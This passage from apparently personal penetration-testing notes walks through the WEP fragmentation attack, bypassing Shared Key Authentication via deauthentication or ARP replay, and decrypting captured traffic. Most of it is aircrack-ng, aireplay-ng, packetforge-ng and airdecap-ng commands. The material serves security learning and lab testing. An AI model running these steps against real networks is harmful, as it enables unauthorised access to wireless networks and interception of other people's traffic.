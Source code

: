 
#### fragmentation attack
Similar to chop chop but we need to obtain 1500 bytes from the pseudo random generator algorithm (PRGA). With this attack another packet is forged, but it's faster than chop chop, although we need to be physically close to the AP so that it works better.

```bash
# Start saving packets
sudo airodump-ng --bssid <bssid> --channel <channel> --write out wlan0mon

# fake auth (the 0 instructs to do the attack once)
sudo aireplay-ng --fakeauth 0 -a <AP bssid> -h <our wlan0mon MAC> wlan0mon

# Obtain PRGA
aireplay-ng --fragment -b <bssid> -h <our wlan0mon MAC> wlan0mon

# Say "y" when asked. It may fail several times and ask us if we want to use another. say "y" always. When one of the packets is useful it lets us know and saves the keystream in a .xor file

# forge a new packet (with -0 it creates an ARP packet)
packetforge-ng -0 -a <bssid> -h <nuestra mac de wlan0mon> -k 255.255.255.255 -l 255.255.255.255 -y <xor file> -w <output>

# inject the forged packet (remember to do fake auth just before this)
sudo aireplay-ng -2 -r <forged packet name> wlan0mon
```


#### WEP SKA
Normally when we do fake auth with aireplay-ng to a WEP network we can see it becomes OPN, but some routers allow to configure Shared Key Authentication (SKA), which prevents that no one without that key can associate to the AP (unlike in OPEN networks, where anyone can associate). In networks with SKA set up we will see SKA after doing fake auth. 

It is possible to deauthenticate a connected client, and capture the SKA when he reconnects. With this key we can associate to the AP and try the previous attacks to recover the WEP key.

We can also inject an ARP packet using the MAC address of the client which is already connected to the AP. With this we can generate traffic to recover IVs and still crack the WEP password, despite not having the SKA.

```bash
sudo aireplay-ng --arpreplay -b <AP bssid> -h <MAC of a connected client> wlan0mon
```

The 802.11w standard protects against deauth attacks, buth must be supported by both the client and the AP

When we have cracked a WEP or WPA key we can decrypt captured traffic in wireshark:

``preferences > protocols > IEEE 802.11``, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`

If we don't have wireshark we can do:
```bash
airdecap-ng -w <wep key in hex> <pcap>
tshark -r <decrypted pcap>
```
